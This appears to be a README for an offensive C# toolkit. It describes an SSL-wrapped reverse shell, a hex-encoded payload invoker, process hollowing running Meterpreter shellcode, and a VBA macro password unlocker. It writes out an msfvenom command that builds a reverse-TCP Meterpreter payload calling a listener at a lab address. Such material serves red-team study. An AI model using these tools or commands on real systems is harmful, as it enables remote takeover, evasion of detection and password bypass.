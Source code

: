 # Rando
//SslReverseLib is a copy of Jamie Bowman's reverse shell implementation (Ref #1).
The only change I made was wrapping it inside of Microsoft's official SSLSTREAM class (Ref #2).
Programmer needs only to provide a base64 encoded PEM certificate (Ref #3) to get it working
1. https://www.mrjamiebowman.com/hacking/c-sharp-reverse-shell/
2. https://docs.microsoft.com/en-us/dotnet/api/system.net.security.sslstream
3. https://nmap.org/ncat/guide/ncat-ssl.html

//HexecutableInvoker executes any hexecutable payload provided. 
It was inspired by a SANS article on malicious JavaScript (Ref #1) as well Reversing Hub's exquisite class on hexecutable malware. Reccomend highly!!! (Ref #2). Additionally, the hex converversion process can be understood by studying this stack overflow forum post on the same process (Ref #3). To launch, the programmer needs only to replace the namespace & class with that of their payload & then provide the necessary arguments. Convert your payload to .hex format using the instructions provided in ReversingHub's Udemy course linked below.
1. https://isc.sans.edu/forums/diary/Malicious+Script+With+Multiple+Payloads/25090/
2. https://www.udemy.com/course/reverse-engineering-deep-dive/
3. https://stackoverflow.com/questions/311165/how-do-you-convert-a-byte-array-to-a-hexadecimal-string-and-vice-versa

//C# Process Hollowing is Gmgorelik's implementation (Ref #1). The shell code being executed was generated using the following msfvenom command:
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192[.]168[.]56[.]104 LPORT=56104 -b "\x00" -f cs HollowP.cs 
It calls out to a meterpreter listener on 192[.]168[.]56[.]104:56104. You may modify the above command to generate your own payload all the same. This program is mostly commodity & highly detectable. That being said, it is a good candidate for hexecutable invocation:
1. https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

//VBA Macro Hacker
Originally derived from the below StackOverflow page (Ref #1) this .csv contains a function to unlock any VBA macro past password protection.
Open the MacroHacker.csv along side your favorite password protected macro & then execute the unlock funtion.
This should make the previously locked macro viewable in Excel's VBA editor.
1. https://stackoverflow.com/questions/1026483/is-there-a-way-to-crack-the-password-on-an-excel-vba-project
